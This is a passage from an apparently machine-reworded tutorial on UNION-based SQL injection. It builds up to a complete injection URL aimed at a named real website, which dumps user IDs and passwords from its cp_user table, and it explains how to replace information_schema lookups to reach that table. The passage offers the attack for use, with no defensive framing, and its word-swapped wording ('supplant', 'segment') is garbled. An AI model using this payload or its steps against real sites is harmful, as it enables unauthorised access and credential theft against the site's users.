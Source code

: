 ![### (img 6)](https://i.postimg.cc/43tN8hYt/step-6.png)

Presently it will show the rundown of sections.

like -

- u_name
- u_id
- u_pass
- u_type
- is_active ..

```
Presently supplant the supplant group_concat(column_name) with group_concat(columnname,0x3c6c693e,another column name).
```

Column name ought to be supplanted from the recorded segment name.

Another column name ought to be supplanted from the recorded segment name.

```
Presently supplant the " from information_schema.columns where table_name=CHAR(99, 112, 95, 117, 115, 101, 114)" with the "from table_name"
```

Ex:

```
http://www.pha.org.pk/sro_list.php?catid=-1 +UNION+ALL+SELECT+1,2,group_concat(u_id,0x3c6c693e,u_pass),4,5 from cp_user--+-
```

![enter image description here](https://i.postimg.cc/9f1NHLwj/7.png)

At some point, it will show the section isn't found.
Then, at that point, attempt another section names
Presently it will have a Username and passwords.
Appreciate

### Thanks for reading
